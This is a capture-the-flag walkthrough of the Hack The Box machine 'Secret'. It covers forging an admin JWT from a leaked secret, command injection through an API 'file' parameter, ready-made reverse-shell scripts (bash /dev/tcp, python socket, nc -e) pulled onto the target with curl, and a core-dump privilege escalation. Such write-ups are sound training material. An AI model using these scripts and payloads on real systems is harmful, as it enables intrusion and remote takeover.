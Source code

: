 # Secret

## Remote Discovery

> Note: the box IP has been added to the `/etc/hosts` file as `secret.htb`

### Nmap Scan

An `nmap -Sc -Sv secret.htb` yields:
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
...
3000/tcp open  http    Node.js (Express middleware)
...
```

looks like we have an http server, lets use some gobuster:

### Gobuster
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://secret.htb | tee gb_common.txt
...
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

### Source Code and User Creation/Access
Looking around at the site, we can find that there is some source code, as well as docs explaining the code. It appears that the current site is running the source code you can download from the site... So now we just need to exploit it. We can start with user creation.

The docs outline a way to send a POST request to create a user, we can accomplish this with such a command:
```bash
$ curl -H "Content-Type: application/json" -d '{"name":"tester","email":"blaine.bublitz@gmail.com","password":"tester"}' http://secret.htb:3000/api/user/register

{"user":"tester"}
```

This creates the user `tester` with the password `tester`. It is of note, that not all emails will work, I found this one in the source code and just tried it. I doubt we'll actually need an email for this exploit, so anything that works will be fine.

The next steps outlined in the docs is to send a POST request to login and we should recieve an auth token:
```bash
$ curl -H "Content-Type: application/json" -d '{"email":"blaine.bublitz@gmail.com","password":"tester"}' http://secret.htb:3000/api/user/login

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTgxNTMzMDdlMDQyMDA0Nzk4OWJhYWUiLCJuYW1lIjoidGVzdGVyIiwiZW1haWwiOiJibGFpbmUuYnVibGl0ekBnbWFpbC5jb20iLCJpYXQiOjE2MzU4NjU5NzZ9.UF6A5i8uOlilGot6_ipbpjkoifzd8KrSmlSKsL_r7tw
```

Knowing this, we need to try to gain access to the admin account. Fortunately, there is the token secret found in the git history in the files you can download from the site. We can use this to generate a token using jwt:
```bash
TOKEN_SECRET=secret_from_the_history
PAYLOAD='{_id:"618153307e0420047989baae",name:"theadmin",email:"root@dasith.works",iat:1635865976}'
TOKEN=$( node -e "const jwt = require('jsonwebtoken'); console.log(jwt.sign($PAYLOAD, '$TOKEN_SECRET' ));" )
```

We can now use this auth token for some exploit goodness.

## Remote Code Execution

Using the token we generate from the admin account, we can run some remote code execution through the `/api/logs` page. By url encoding some commands and slapping that on the file param, we can get some execution, lets make a script to make this easier:
```bash
$ cat run_command.sh

#!/bin/bash
TOKEN=$1
COMMAND=$2
COMMAND=$( node -e "console.log(encodeURIComponent(\"$COMMAND\"))" )
echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$COMMAND")
```

With this, we can use some reverse shell magic to get a reverse shell. For conveniance, I've created a script that tries a few different reverse shell techniques:
```bash
$ cat remote_shell.sh

#!/bin/bash
# Usage ./remote_shell.sh IP_ADDRESS PORT

IPADDR=$1
PORT=$2

echo "Attempting to connect through bash and tcp..."
bash -i >& /dev/tcp/$IPADDR/$PORT 0>&1 && exit 1 || echo "Failed to use bash -i with tcp"

echo "Attempting python connection..."
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IPADDR'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1 || echo "Failed at python connection"

echo "Attempting a netcat connection..."
nc -e /bin/sh $IPADDR $PORT && exit 1 || echo "Failed netcat connection"
```

Using this, we get the file to the server using a python http server, and a `./run_command "curl http://IPADDRESS/remote_shell.sh > /tmp/remote_shell.sh"` and a `./run_command "/bin/bash /tmp/remote_shell.sh IPADDR PORT"` while starting a netcat listener on a given port, then we've got a shell!

To make this easier, I've made a script to automate this:
```bash
$ cat shell.sh

#!/bin/bash

# Get some vars
if [[ -z $1 ]]; then
        PORT=5001
else
        PORT=$1
fi
TMPFILE=tmpfile19527613
TOKEN_SECRET=gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
PAYLOAD='{_id:"618153307e0420047989baae",name:"theadmin",email:"root@dasith.works",iat:1635865976}'
TOKEN=$( node -e "const jwt = require('jsonwebtoken'); console.log(jwt.sign($PAYLOAD, '$TOKEN_SECRET' ));" )
IP=$(ifconfig tun0 | grep 'inet ' | cut -d: -f2 | awk '{print $2}')
cat <<EOF> $TMPFILE
bash -i >& /dev/tcp/$IP/$PORT 0>&1 && exit 1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IP'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1
nc -e /bin/sh $IP $PORT && exit 1
xterm -display $IP:$PORT && exit 1
EOF
C1="nofile; curl http://$IP/$TMPFILE > /tmp/shell.sh"
C1=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C1\"))" )
C2="nofile; /bin/bash /tmp/shell.sh $IP $PORT"
C2=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C2\"))" )
C3="nofile; rm /tmp/shell.sh"
C3=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C3\"))" )

# Define cleanup function
function cleanup {
        rm $TMPFILE
        echo "Removing shell file on server"
        res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C3"))
}
trap cleanup EXIT

# Start http server
python3 -m http.server 80 &
pid=$!
sleep 1

# Get the reverse script
res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C1"))
#echo $res # for debugging
sleep 1

# Stop the http server
kill "${pid}"

# Start a nc listener and run the connection
{ sleep 2; res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C2")); } &
nc -lvnp $PORT
```

## Privesc

Looking around for an exploit to get the root flag, we can find the script `/opt/count` with corresponding c code in `/opt/code.c`. This program appears to be able to read the root flag as `printf "/root/root.txt\nn" | /opt/count"` will give use the number of characters, words, and lines in the file. We might be able to leverage this program to show us the root flag.

We know that the program has `prctl(PR_SET_DUMPABLE, 1);`, which means that we can kill the file while its trying to write to a file and read through the dump. For this exploit, we will need 2 shells:

#### Shell 1
```bash
dasith@secret:~/local-web$ /opt/count
/root.txt
y
```

### Shell 2
```bash
dasith@secret:~/local-web$ ps aux | grep /opt/count
root         839  0.0  0.1 235672  7472 ?        Ssl  14:37   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1229  0.0  0.0   2488   580 ?        S    14:43   0:00 /opt/count -p
dasith      1231  0.0  0.0   6432   672 ?        S    14:44   0:00 grep --color=auto count

dasith@secret:~/local-web$ kill 1229
```

This creates a dump file in `/var/crash`, and we can use the `apport-unpack` command to unpack the crash data:
```
dasith@secret:~/local-web$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/dump
dasith@secret:~/local-web$ strings /tmp/dump/CoreDump
...
ROOT_FLAG
...
```

Boom! Finished with the root flag (redacted).
